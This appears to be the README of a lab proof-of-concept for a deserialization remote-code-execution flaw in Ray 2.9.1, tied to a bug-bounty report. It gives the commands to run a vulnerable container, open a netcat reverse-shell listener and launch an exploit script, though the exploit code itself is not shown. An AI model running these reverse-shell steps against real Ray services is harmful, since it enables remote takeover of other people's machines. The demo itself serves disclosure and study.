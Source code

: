 # Ray 2.9.1 Deserialization Demo (Reverse Shell) - CWE-502
Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f
Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is performed by sending a malicious serialized object to the Ray service.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands
### Terminal 1 - Start the Service

Pull the image from dockerhub using `docker pull rayproject/ray:2.9.1` or build the image using the provided `Dockerfile`. Note, if the image is pulled from dockerhub, then the client python version must be `>=3.8` and the `ncat` command must be installed manually.

```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 -p 4321:4321 --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python -m venv .venv-3.8
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
